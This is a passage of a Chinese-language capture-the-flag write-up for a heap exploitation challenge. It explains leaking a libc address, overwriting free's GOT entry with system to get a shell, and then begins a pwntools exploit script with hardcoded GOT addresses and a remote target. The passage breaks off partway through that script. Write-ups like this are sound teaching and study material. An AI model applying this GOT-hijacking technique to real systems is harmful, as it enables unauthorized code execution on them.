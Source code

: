 接著呼叫 wipe(small) 會變成：

```
wipe(small) -> free(small) -> puts(small) -> puts(libc_start_main_got)
```

成功 leak libc function address。

這裡 libc 的版本是直接對比 babyheap 那題的 libc.so.6 是同一版本直接拿來用，找到 libc base 之後，利用 renew(huge) 把 small_buf 在指回 free_got

```python
payload = p64(free_got) + p32(1)*3
```

之後 renew(small) 來把 free_got 再次 hijack：

```python
system = base + libc.symbols['system']
payload = p64(system) + p64(puts_got_value)
```

接著 renew(huge) 把 small_buf 指到 'sh\x00' 字串位置

```python
payload = p64(0x6020b8) + 'sh\x00'
```

改完後 global buffer：

```assembly
0x6020a0:       0x00000000013b0040      0x00000000006020b0
0x6020b0:       0x00000000006020b8      'sh\x00'
```

call wipe(small)：

```
wipe(small) -> free(small) -> system(small) -> system('sh')
```

就拿到 shell 了！

## Final Exploit:

```python
#!/usr/bin/env python

from pwn import *

r = remote('127.0.0.1', 4000)
#r = remote('52.68.31.117', 5566)


secret_size={'small':'1', 'big':'2', 'huge':'3'}
free_got = 0x602018
puts_got_value = 0x4006c6
libc_start_main_got = 0x602048


def keep(size, content):
    r.sendlineafter("3. Renew secret\n", '1')
    r.sendlineafter("3. Huge secret\n", secret_size[size])
    r.sendlineafter("Tell me your secret:", content)

def wipe(size):
    r.sendlineafter("3. Renew secret\n", '2')
    r.sendlineafter("3. Huge secret\n", secret_size[size])

def renew(size, content):
    r.sendlineafter("3. Renew secret\n", '3')
    r.sendlineafter("3. Huge secret\n", secret_size[size])
```